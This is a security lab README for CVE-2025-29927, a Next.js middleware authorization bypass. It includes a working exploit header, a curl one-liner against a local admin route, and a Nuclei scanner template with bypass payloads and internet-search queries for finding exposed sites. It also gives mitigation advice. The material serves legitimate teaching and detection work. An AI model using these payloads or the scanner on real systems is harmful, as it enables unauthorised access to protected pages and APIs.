 # CVE-2025-29927: Next.js Middleware Authorization Bypass

## Description

This lab demonstrates a critical vulnerability in Next.js middleware that allows attackers to completely bypass security controls through the `x-middleware-subrequest` header manipulation. The vulnerability affects all Next.js versions from 11.1.4 through 15.2.2, impacting applications using middleware for authentication, authorization, or any other security controls.

## Vulnerability Details

- **CVE ID**: CVE-2025-29927
- **CVSS Score**: 9.1 Critical (CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:N)
- **Affected Versions**: Next.js 11.1.4 - 15.2.2
- **Attack Vector**: Middleware Bypass via x-middleware-subrequest Header
- **Impact**: Authentication Bypass, Authorization Bypass, CSP Bypass, Potential DoS
- **CWE**: CWE-287 (Improper Authentication)

## Lab Setup

### Prerequisites

- Docker
- Docker Compose

### Running the Lab

1. Start the vulnerable application:
   ```bash
   docker-compose up -d
   ```

2. The application will be available at:
   - Main application: http://localhost:3000
   - Protected routes:
     - Dashboard: http://localhost:3000/dashboard
     - Admin Panel: http://localhost:3000/admin
     - Profile: http://localhost:3000/profile
     - API Secret: http://localhost:3000/api/secret

## Vulnerability Exploitation

The vulnerability can be exploited by adding the `x-middleware-subrequest` header with specific values depending on the Next.js version:

### For Next.js 14.0.0 (Lab Version):
```http
GET /admin
Host: localhost:3000
X-Middleware-Subrequest: middleware:middleware:middleware:middleware:middleware
```

You can test this using curl:
```bash
curl -H "X-Middleware-Subrequest: middleware:middleware:middleware:middleware:middleware" http://localhost:3000/admin
```

## Protected Resources

The lab includes several protected resources:
1. `/dashboard` - Protected dashboard page
2. `/admin` - Protected admin panel
3. `/profile` - Protected user profile
4. `/api/secret` - Protected API endpoint

All these routes are protected by middleware and will redirect to `/unauthorized` unless bypassed.

## Nuclei Template

```yaml
id: CVE-2025-29927

info:
  name: Next.js Middleware Bypass
  author: pdresearch,pdteam
  severity: critical
  description: |
    Next.js contains a critical middleware bypass vulnerability affecting versions 11.1.4 through 15.2.2.
    The vulnerability allows attackers to bypass middleware security controls by sending a specially crafted
    'x-middleware-subrequest' header, which can lead to authorization bypass and other security control circumvention.
  reference:
    - https://zhero-web-sec.github.io/research-and-things/nextjs-and-the-corrupt-middleware
    - https://github.com/vercel/next.js/security/advisories/GHSA-f82v-jwr5-mffw
  remediation: |
    Upgrade to Next.js 14.2.25 or 15.2.3 or later.
    If upgrading is not possible, block the x-middleware-subrequest header at the WAF or server level.
  classification:
    cvss-metrics: CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:N
    cvss-score: 9.1
    cwe-id: CWE-287
  metadata:
    max-request: 1
    shodan-query: x-middleware-rewrite
    fofa-query: x-middleware-rewrite
    product: next.js
    vendor: zeit
  tags: cve,cve2025,nextjs,middleware,auth-bypass

flow: |
  http(1)
  for(let endpoint_urls of iterate(template.endpoints)){
    set("endpoints", endpoint_urls)
    http(2) && http(3)
  }

http:
  - method: GET
    path:
      - "{{BaseURL}}"

    matchers:
      - type: word
        part: body
        words:
          - "_next/static"
        internal: true

      - type: word
        part: header
        words:
          - "Next.js"
        internal: true

    extractors:
      - type: regex
        name: endpoints
        part: body
        group: 1
        regex:
          - "href=['\"](\\/[^\\.\"']+)['\"]"
        internal: true

  - method: GET
    path:
      - "{{BaseURL}}{{endpoints}}"

    matchers:
      - type: dsl
        dsl:
          - contains_any(to_lower(header), 'x-middleware-rewrite', 'x-middleware-next', 'x-middleware-redirect') && status_code != 200
        internal: true

  - method: GET
    path:
      - "{{BaseURL}}{{endpoints}}"
    headers:
      X-Middleware-Subrequest: "{{nextjs_bypass}}"

    payloads:
      nextjs_bypass:
        - "middleware:middleware:middleware:middleware:middleware"
        - "x-middleware-subrequest: src/middleware:src/middleware:src/middleware:src/middleware:src/middleware"

    matchers:
      - type: dsl
        dsl:
          - status_code == 200
```

## Mitigation

1. Upgrade to patched versions:
   - Next.js 15.2.3 or later
   - Next.js 14.2.25 or later for 14.x users

2. If unable to upgrade, implement a WAF rule or reverse proxy configuration to block requests containing the `x-middleware-subrequest` header.

## Reference

- [Next.js Middleware Request Corruption Research](https://zhero-web-sec.github.io/research-and-things/nextjs-and-the-corrupt-middleware)
- [Security Advisory](https://github.com/vercel/next.js/security/advisories/GHSA-f82v-jwr5-mffw)

## Security Notes

This is a deliberately vulnerable application for security research and learning purposes. Do not deploy in production environments.

## Detection

The vulnerability can be detected using the following Nuclei template:
- Template: [CVE-2025-29927.yaml](../../../CVE-2025-29927.yaml)
